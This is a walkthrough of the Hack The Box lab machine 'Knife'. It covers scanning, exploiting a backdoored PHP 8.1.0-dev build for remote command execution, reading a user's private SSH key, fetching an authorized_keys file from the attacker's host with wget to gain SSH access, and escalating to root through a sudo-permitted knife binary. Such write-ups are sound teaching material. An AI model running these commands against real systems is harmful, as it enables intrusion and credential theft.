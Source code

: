 ```yaml
---
layout: post
title: Knife
published: true
---
```


**Knife is an easy machine from Hack The Box.**

### Enumeration

`nmap` as always.

`nmap -sC -sV knife.htb`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Pretty simple box, as expected. SSH and HTTP. I'll take a look at the web page first.

![Pasted image 20210602163656](https://user-images.githubusercontent.com/60187707/131223063-72bb9d54-d868-450a-9f9a-3d843da8dd86.png)

It's a pretty non-functional site. None of the buttons take me anywhere, and the page source doesn't reveal any particularly interesting information. I ran `gobuster` to try and enumerate subdirectories, but not much there either.

I open up Burpsuite and intercept my request for the homepage:

![Pasted image 20210602163915](https://user-images.githubusercontent.com/60187707/131223127-b32b73a7-992e-4567-be99-e60698367604.png)

The response headers reveal that the site is running `PHP/8.1.0-dev`. Now that's something I can work with.

### Exploitation

A quick google search turns up an [unauthenticated RCE exploit](https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html).

To verify it works, I run `python3 php.py -u http://10.10.10.242/ -c whoami` as a proof of concept.

![Pasted image 20210602134420](https://user-images.githubusercontent.com/60187707/131223212-343373f5-f7c1-478f-8707-d7a9f6224c89.png)

Looks like I do indeed have RCE. After a bit of (unsuccessful) fumbling around with various reverse shells and payloads, I start looking for a more persistent solution.

I can view `james` private SSH key by running `python3 php.py -u http://10.10.10.242/ -c "cat /home/james/.ssh/id_rsa"`:

![Pasted image 20210602170635](https://user-images.githubusercontent.com/60187707/131223298-6c04c2d3-c358-4afe-afe7-6c5cdada426b.png)

I tried to crack it with `john` but no dice. Can I write to that directory?

![Pasted image 20210602171355](https://user-images.githubusercontent.com/60187707/131223347-304c3734-6bd8-4843-9c95-c0fd61cc3cd1.png)

I sure can! This means I should be able to copy my own public key into an `authorized_keys` file, and use my private key to SSH in.

I generate a keypair with `ssh-keygen`, place it in a file called `authorized_keys`, and host that on my own web server with `sudo python -m SimpleHTTPServer 80`.

Run a command to download the key file and place it in `/home/james/.ssh/`:

`python3 php.py -u http://10.10.10.242/ -c "wget http://10.10.14.16:8080/authorized_keys -P ~/.ssh/"`

After verifiying that the file was written to the SSH directory correctly, I can easily SSH in as `james`:

`ssh -i /home/kali/.ssh/id_rsa james@10.10.10.242`

![Pasted image 20210602171958](https://user-images.githubusercontent.com/60187707/131223458-887bf6c2-e3b9-47a4-9f66-2ae96f9b6296.png)

And I'm on as `james`.

### Privilege Escalation

Of course, I run `sudo -l` first, to see if `james` has any `sudo` permissions:

![Pasted image 20210602152152](https://user-images.githubusercontent.com/60187707/131223505-226bc8c1-17a0-483b-a782-23c96e2762ad.png)

They are able to run `knife` as `root` without a password. After looking at the help page for the `knife` binary, I see that there is an `exec` subcommand, that I can use to make system calls. Seems easy enough.

`sudo knife exec -E 'system("su")'`

![Pasted image 20210602172315](https://user-images.githubusercontent.com/60187707/131223548-b39ecb5d-d792-445b-a4fe-a6f159d2e882.png)

Just like that, Knife has been owned.



